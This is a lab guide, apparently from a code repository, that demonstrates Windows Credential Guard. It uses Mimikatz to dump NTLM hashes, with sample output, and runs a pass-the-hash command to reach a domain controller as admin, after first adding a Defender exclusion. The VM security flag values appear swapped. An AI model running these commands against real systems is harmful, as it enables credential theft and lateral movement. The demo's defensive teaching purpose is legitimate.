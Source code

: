 # Credential Guard Demo with Mimikatz

## Demo without Credential Guard enabled

If you have a VM with Credential Guard already enabled, run the following command on the Hyper-V host to disable Virtualization based Security.

```powershell
Set-VMSecurity -VMName "W10Client1 - Hybrid Joined" -VirtualizationBasedSecurityOptOut $false
```

1. Add C:\DEV\MK to the Defender Exclusion list
2. Download mimikatz into C:\DEV\MK
3. Open an elevated prompt.
4. Run mimikatz.exe
5. Run the following commands

```batch
privilege::debug
log nocredguard.log
sekurlsa::logonpasswords
```

You get an output like this, in this example we see the NTLM hashes from user Tina and user OA. Note down the NTLM hash

```batch
         * Username : oa
         * Domain   : corp
         * NTLM     : 63bf41b93e6ee0deffbadba689a0241d
         * SHA1     : 00b18eac52e67f636fc4a1130f491919a2516ce3
         * DPAPI    : 06383a0cd1b82e49154d37c70c70d85b


         * Username : tina
         * Domain   : corp
         * NTLM     : 3c849ce9c31ccf7a3c0cad3ec93edc75
         * SHA1     : dc4aa8063574c5069ed522d8098e0b9ab1fab3bf
         * DPAPI    : 131a0e8007dbed59aa34bf15e0269e03

```

To run a Pass the hash simulation run the following command:

```batch
sekurlsa::pth    /user:oa  /domain:corp.net /ntlm:63bf41b93e6ee0deffbadba689a0241d
```

Run whoami, you will still see the test user, not the elevated one, next open a remote powershell session on the domain controller and add a new group. This only works because you  are using domain admin credentials via pass the hash


## Demo with Credential Guard enabled

To turn VBS on again for the VM that has Credential Gaurd enabled run the following command on the Hyper-V host. 

```powershell
Set-VMSecurity -VMName "W10Client1 - Hybrid Joined" -VirtualizationBasedSecurityOptOut $true
```

Then logon to the VM , open an elevated prompt and run the following command:

1. Run mimikatz.exe
2. Run the following commands

```batch
privilege::debug
log nocredguard.log
sekurlsa::logonpasswords
```

Result: you will no longer see MTLM hashes.
